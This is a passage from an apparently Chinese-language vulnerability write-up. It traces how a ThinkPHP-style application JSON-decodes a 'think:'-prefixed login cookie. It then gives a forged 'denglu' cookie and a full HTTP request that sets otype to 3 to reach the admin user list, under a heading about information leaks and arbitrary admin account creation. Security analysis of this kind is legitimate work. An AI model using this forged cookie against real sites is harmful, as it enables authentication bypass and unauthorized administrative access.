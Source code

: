 cookie函数  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEl9j9CCr6XWQibMnZWaKnDPMKwMNsLydmk1beCfwoC9GQHqTeg7nWgz5KA1TpFTsL4jg4qP4ERQHgA/640?wx_fmt=png&from=appmsg "")  
  
跟进cookie函数后,我们传入的name  
值为'denglu'  
，value  
为空字符串,则进入到elseif('' === $value)  
,由于name不是以'?'开头，所以最终会调用 Cookie::get($name, $option)  
方法来获取指定名称的 Cookie值。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEl9j9CCr6XWQibMnZWaKnDPM6kH3cfSSF84tV92R6jYhKRkFP9vLDv1jQCL2P1IRlNaS5l56CZwDoA/640?wx_fmt=png&from=appmsg "")  
  
进入到get  
函数,判断prefix  
参数不为null  
,则使用传入的值;否则，使用类静态属性self::$config['prefix']  
的值作为默认值。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEl9j9CCr6XWQibMnZWaKnDPMRfR4fEvm3vHtWJFm9YThmxKUJvJC3M2ekhNU8ESrvc6aL2Sjd2OXFA/640?wx_fmt=png&from=appmsg "")  
  
config  
参数的prefix  
为空  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEl9j9CCr6XWQibMnZWaKnDPM4YxcBbLEsUnmhF9zOsnAU8jM7M2C7yTiaYTibTjMb4Jseg8ErHIoiakRA/640?wx_fmt=png&from=appmsg "")  
  
后续name  
值为denglu  
，判断赋值后的value  
是否已think:  
开头,则去除前缀并解码JSON  
数据，递归处理数组中的值。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEl9j9CCr6XWQibMnZWaKnDPMyH65JoZyeLickHBBPNVWiaXU3081KZQic88mCI9t6qgzUQGXWceV6GFuA/640?wx_fmt=png&from=appmsg "")  
  
那么最终的参数则为  
```
Cookie: denglu=think:{"otype":"1","userid":"1","token":"3c341b110c44ad9e7da4160e4f865b63"}
```  
## 信息泄露+任意管理员用户添加  
  
访问system  
控制器，发现判断传入的otype  
是否为3，否则。。(挺抽象的)![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEl9j9CCr6XWQibMnZWaKnDPM9q8SmQpue4SGssyrQVTdY3Yz7icawUJPCh8AfltzialdibBbceZJaT1Ig/640?wx_fmt=png&from=appmsg "")  
  
  
后续找到管理员页面的路径  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/90EWr4bdmEl9j9CCr6XWQibMnZWaKnDPMfsOVA6ohNk2KjKlBL32AWbZxTlaQXGOFVicX5oUwN9ribCykCUZyQIvg/640?wx_fmt=png&from=appmsg "")  
  
构造参数访问，并修改userid  
值获取列表  
```
GET /admin/system/adminlist.html?key=000 HTTP/2Host:xxxCookie: denglu=think:{"otype":"3","userid":"1","token":"3c341b110c44ad9e7da4160e4f865b63"}Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"Sec-Ch-Ua-Mobile: ?0Sec-Ch-Ua-Platform: "macOS"Accept-Language: zh-CN,zh;q=0.9Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36Accept: text/html,application/xhtml xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Sec-Fetch-Site: same-originSec-Fetch-Mode: navigateSec-Fetch-User: ?1Sec-Fetch-Dest: documentReferer: https://xxxx/admin/system/adminadd.htmlAccept-Encoding: gzip, deflate, brPriority: u=0, i
```  
  